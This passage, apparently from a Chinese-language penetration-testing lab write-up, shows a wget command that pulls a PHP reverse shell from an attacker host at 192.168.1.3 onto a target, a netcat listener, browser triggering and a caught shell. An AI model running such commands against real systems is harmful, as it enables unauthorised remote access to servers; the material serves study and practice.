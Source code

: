 

### 上传至目标主机

```
wget 192.168.1.3:8000/php-reverse-shell.php
```

![image-20250321153107927](assets/image-20250321153107927.png)



### 本地开启监听

```
nc -lvp 2999
```

![image-20250321153150669](assets/image-20250321153150669.png)



### 浏览器中触发该脚本

![image-20250321153215082](assets/image-20250321153215082.png)



### 成功反弹shell

![image-20250321153229192](assets/image-20250321153229192.png)
